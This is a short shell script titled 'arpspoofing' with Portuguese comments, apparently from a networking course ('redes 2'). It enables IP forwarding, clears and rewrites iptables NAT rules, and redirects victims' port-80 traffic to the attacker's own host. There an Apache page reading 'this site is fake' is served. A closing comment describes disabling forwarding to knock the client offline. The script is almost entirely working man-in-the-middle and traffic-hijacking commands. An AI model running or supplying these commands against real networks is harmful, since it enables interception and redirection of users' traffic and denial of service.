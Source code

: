 # arpspoofing

echo 1 > /proc/sys/net/ipv4/ip_forward

iptables -t nat --flush

iptables --zero

iptables -A FORWARD --in-interface ‘nome_interface’ -j ACCEPT

iptables -t nat --append POSTROUTING --out-interface ‘nome_interface’ -j MASQUERADE

iptables -t nat -A PREROUTING -p tcp --dport 80 --jump DNAT --to-destination ‘meuip’

apt-get install apache2

echo “esse site eh falso!!” > /var/www/html/index.html


redes 2
desabilita forwarding e derrubar cliente 
